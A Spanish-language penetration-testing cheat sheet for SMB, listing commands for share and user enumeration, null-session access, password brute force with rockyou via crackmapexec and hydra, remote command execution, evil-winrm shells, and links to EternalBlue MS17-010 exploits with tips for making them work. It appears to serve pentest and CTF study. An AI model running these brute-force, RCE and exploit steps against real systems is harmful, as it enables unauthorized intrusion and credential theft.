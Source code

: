 SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces comparti

### Comandos básicos

```
dir o ls # para listar directorio actual
get <archivo> # descargarnos en nuestra máquina un archivo
mget <carpeta> # descargarnos la carpeta entera a nuestra máquina un archivo
allinfo <archivo/carpeta> # saber el tamaño,permisos, atributso NTFS etc de dicho archivo/carpeta
```

### Enumerar servicio,info

```
enum4linux <IP> # comanda básica sin credenciales
enum4linux -a [-u "<usuario>" -p "<password>"] <IP> # con credenciales validas
nmap --script "smb-enum-*" -p445 <IP> # enumerar con nmap
nmap --script "vuln and safe" -p445 <IP> # checkear que haya vulns básicas de smb y safe para que no sea muy intrusiva
```

### Enumerar servicios,ficheros, carpetas etc


```
#smbclient
smbclient -L # listar servicios disponibles
smbclient --no-pass -L //<IP> # listar servicios disponibles sin credenciales (null user)
#smbmap
smbmap -H <IP> [-P <PORT>] # sin credenciales (null user)
smbmap -u "ususario" -p "pass" -H <IP> [-P <puerto>] # con credenciales
smbmap -H <IP> -R <share> # listar archivos en esta carpeta
#crackmapexec
crackmapexec smb <IP> -u '' -p '' --shares #sin credenciales (null user)
crackmapexec smb <IP> -u usuario -p pass --shares # con credenciales listar 
crackmapexec smb <IP> -u usuario -p pass --users # listar usuarios
crackmapexec smb <IP> -u usuario -p pass --groups # listar grupos
crackmapexec smb <IP> -u usuario -p pass -x "whoami" # RCE
```

### Fuerza bruta

```
# winrm
crackmapexec winrm <IP victima> -u user -p /usr/share/wordlists/rockyou.txt
# smb
crackmapexec smb <IP victima> -u user -p /usr/share/wordlists/rockyou.txt
# Linux
hydra -l <user> -P /usr/share/wordlists/rockyou.txt smb://<IP victima>
```

### Conectarte al recurso

```
smbclient --no-pass //<IP>/<carpeta> # sin credenciales
smbclient //<IP>/<ruta> -U=user%password # con credenciales
```

### Descargar archivo

```
sudo smbmap -R carpeta -H <IP> -A <archivo> -q # descargar a tu maquina local
```

### Crear servidor smb con python

```
smbserver.py EjemploSmb $(pwd)
```

### Evil-winrm

Si es el caso que con crackmapexec hemos conseguido credenciales del sistema y no esta el RDP abierto, podemos acceder mediante evil-winrm que utiliza el protocolo winrm para acceder al sistema victima y tener una shell

```
evil-winrm -i <IP/Domain> -u <user> -p <password>
```

## Eternalblue ms17-010

Para solucionar el error de impacket a la hora de ejecutar los scripts dejo un link que medio soluciona el problema [https://abhishekgk.medium.com/solution-impacket-error-ms17-010-a7787ebacf84](https://abhishekgk.medium.com/solution-impacket-error-ms17-010-a7787ebacf84)

[GitHub - worawit/MS17-010: MS17-010GitHub](https://github.com/worawit/MS17-010)

Si por ejemplo al hacer el check no sale todos los test en `STATUS_ACCESS_DENIED` prueba de entrar en el script y añadir a `USERNAME = ''` el usuario guest y vuelve a ejecutar.

[GitHub - d4t4s3c/Win7Blue: Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 BitsGitHub](https://github.com/d4t4s3c/Win7Blue)